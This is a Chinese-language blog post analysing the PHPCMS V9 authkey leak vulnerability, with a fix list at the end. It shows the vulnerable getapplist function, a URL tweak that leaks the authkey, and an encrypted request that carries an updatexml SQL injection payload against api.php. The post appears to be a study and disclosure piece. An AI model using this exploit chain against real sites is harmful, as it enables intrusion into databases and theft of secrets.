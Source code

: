 title: "PHPCMS Authkey 泄露漏洞分析"
date: 2016-03-10 09:30:00
tags: [安全,原理,总结]
----

<!-- more -->
# PHPCMS V9 Authkey泄露漏洞

在PHPCMS V9的版本中（现已修复）

`phpcms/phpsso\_server/phpcms/modules/phpsso/index.php`

中有一段代码如下：
    
    /**
         * 获取应用列表
         */
        public function getapplist() {
                $applist = getcache('applist', 'admin');
                exit(serialize($applist));
        }

    
        


此处可以获取cache_admin的信息，内容如下：

![Cache_admin](http://7sbxd0.com1.z0.glb.clouddn.com/PHPCMS%20AUTHKEY.png)

可以获得authkey和调用它的文件`api.php` 

获得cache的URL是通过上传用户头像处可以解出来：

`http://localhost:8038/study/phpcms/phpsso_server/index.php?m=phpsso&c=index&a=uploadavatar&auth_data=v=1&appid=1&data=e5c2VAMGUQZRAQkIUQQKVwFUAgICVgAIAldVBQFDDQVcV0MUQGkAQxVZZlMEGA9%2BDjZoK1AHRmUwBGcOXW5UDgQhJDxaeQVnGAdxVRcKQA`


将其中的uploadavatar替换成getapplist即可获取cache信息。

拿到authkey之后，就可以利用他编码请求从而达到执行特定操作的目的。

通过cache_admin可以看出来在api.php?op=phpsso处调用了authkey。我们直接定位到该处。使用authkey加密payload。

`http://localhost/api.php?op=phpsso&code=6f56BQgIUVQDVAkGUwEFCgwDAwNSAVBdA1UHD1RSURFZDlgIS0EPCFwDUFhFFl1dCBMWVlkHE0xDUFJDBktfCRhQGlZXVgIFR0weSERPQUpQRh4eHk8CEBA`

加密的语句是：`action=synlogin&uid=' and updatexml(1,concat('~',user()),1)#`

执行完后的结果：

![结果](http://7sbxd0.com1.z0.glb.clouddn.com/phpauthker%20lou.png)

# 修复


1. 升级PHPCMS版本

2. 删除cache文件

3. 修改默认的authkey

